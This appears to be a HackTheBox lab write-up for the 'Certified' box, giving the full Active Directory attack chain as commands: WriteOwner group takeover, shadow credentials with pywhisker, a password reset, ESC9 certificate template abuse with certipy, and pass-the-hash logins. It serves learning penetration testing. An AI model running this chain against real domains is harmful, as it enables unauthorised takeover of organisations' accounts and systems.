# HackTheBox - Certified


<br>
<br>

## Table of Contents

- [Foreword](#Foreword)
- [Enumeration](#Enumeration)
    - [Portscan](#Portscan)
    - [Credentialed Enumeration](#Credentialed-Enumeration)
    - [LDAP & SMB](#LDAP-&-SMB)
    - [WriteOwner](#WriteOwner)
- [Foothold](#Foothold)
    - [Add Ourself to Group](#Add-Ourself-to-Group)
    - [Shadow Credentials ](#Shadow-Credentials )
    - [Pass-the-Hash](#Pass---the---Hash)
- [root](#root)
    - [GenericAll](#GenericAll)
    - [certipy find](#certipy-find)
    - [ESC9](#ESC9)
    - [Pass-the-Hash](#Pass---the---Hash)

<br>

## Foreword

With this box, HTB introduced a little novelty, namely that we are given initial access data just like in a real-life Windows penetration test.

Certipy was a really great and educational box and a great opportunity to learn **AD CS** stuff.

This was one of the kind of boxes that was not difficult, and that you can do it without having the skillset as long as you stick with it and study the material in my opinion.

Solving the box is a bit further back than writing the solutions now and I'm looking forward to taking a closer look at the solution path again.

<br>
<br>
<br>

## Enumeration

### Portscan

It starts with a full portscan in aggressive mode.

__Command:__ `nmap -p- -T4 -A <IP>`



As with Windows, especially if it is set up as a domain controller, we see all kinds of ports open.

The most important thing for now is that we put the FQDN in the `/etc/hosts` file and off we go.

<br>

### Credentialed Enumeration

__Box Info:__

> As is common in Windows pentests, you will start the Certified box with credentials for the following account: Username: judith.mader Password: judith09

Ok, so now the enumeration started with valid credentials.

I used things like `bloodhound`, `netexec`, `bloodyAD` and in the course I found other newly discovered tools helpful which are especially helpful for **AD CS** setups like `certipy` or a Bloodhound fork which can show AD CS privilege escalation paths.

<br>

### LDAP & SMB

So I started to collect information via bloodhound-python to see graphical relationships.



And I went through various netexec enumerations such as shares, groups, users and made notes along with my enumeration cheat sheet.



<br>

### WriteOwner

When I looked at writing rights using `bloodyAD`, I found it interesting that we have `WriteOwner` rights over the `Managameent` group.



In BloodHound we can see this under **Node Info** of `JUDITH.MADER@CERTIFIED.HTB` -> Added **OUTBOUND OBJECT CONTROL** -> **First Degree Object Control**.



And in the group over which we have `WriteOwner` rights, there is a service account called `management_svc`.



This service user is also in the `Remote Management User` group and is authorized to log in to the machine remotely via WinRM.

<br>
<br>
<br>

## Foothold

Ok, it took me a little while to understand how I could use this to my advantage.

### Add Ourself to Group

In the following three steps, I added myself to the 'Management' group.

```bash
bloodyAD --host certified.htb -u 'judith.mader' -p 'judith09' -d certified.htb set owner Management judith.mader
```

```bash
bloodyAD --host certified.htb -u 'judith.mader' -p 'judith09' -d certified.htb add genericAll Management judith.mader
```

```bash
bloodyAD --host certified.htb -u 'judith.mader' -p 'judith09' -d certified.htb add groupMember Management judith.mader
```



<br>

### Shadow Credentials

Ok, now it had to go on somehow.

We must have some new possibilities now.

It took me a long time to find out about this and I read up on many different AD-CS attack vectors.

```bash
pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"c
```



```bash
certipy cert -export -pfx TqxwvdDk.pfx -password jpvE2LEPX1FSzXFaPGNt -out unprotected_pfx.pfx
```



```bash
certipy auth -pfx unprotected_pfx.pfx -username management_svc -domain certified.htb
```



<br>

### Pass-the-Hash

Now that we have the hash and our user is in the `Remote Managament User` group, I was able to log in using `evil-winrm`.



And the first user flag could also be found under the user's desktop.



<br>
<br>
<br>

## root

Now that I had shell access to the system, I went to System Enumeration, but it continued similarly with rights over other users.

<br>

### GenericAll

Our obtained user `management_svc` user also has `GenericAll` rights again via another service account called `ca_operator.`



This simply lets us change his password as follows.



```cmd
net user "ca_operator" 'NewPassword123!'
```

<br>

### certipy find

With our new user `ca_operator` I looked for new rights etc.

It was interesting to work with certipy here.

With `certipy find...` we can enumerate for templates which are vulnerable to certain attacks.

So I ran the following command.

```bash
certipy find -u 'ca_operator' -p 'NewPassword123!'  -dc-ip <IP>
```

Or a second time with the `-vulnerable` flag, which only filters out vulnerable templates for us.

```bash
certipy find -u 'ca_operator' -p 'NewPassword123!'  -dc-ip <IP> -vulnerable
```

That output was interesting:



<br>

### ESC9

I took the exploitation steps from [thehacker.recipes](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension).

__1.__

```bash
DOMAIN=certified.htb;user1=management_svc;user2=ca_operator;user3=administrator
```



__2.__

```bash
certipy shadow auto -username "$user1@$DOMAIN" -hashes <HASH> -account $user2
```



__3.__

```bash
certipy account update -username "$user1@$DOMAIN" -hashes <HASH> -user $user2 -upn $user3
```



__4.__

```bash
certipy req -username "$user2@$DOMAIN" -hashes <HASH>> -target $DOMAIN -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'
```



__5.__

```bash
ertipy account update -username "$user1@$DOMAIN" -hashes <HASH>  -user $user2 -upn "$user2@$DOMAIN"
```



__6.__

```bash
certipy auth -pfx administrator.pfx -domain "$DOMAIN"
```



<br>

### Pass-the-Hash

And now final with the gotten hash from the last exploitation Step we can login via Pass the Hash attack via `evil-winrm` and retreive the final root flag.





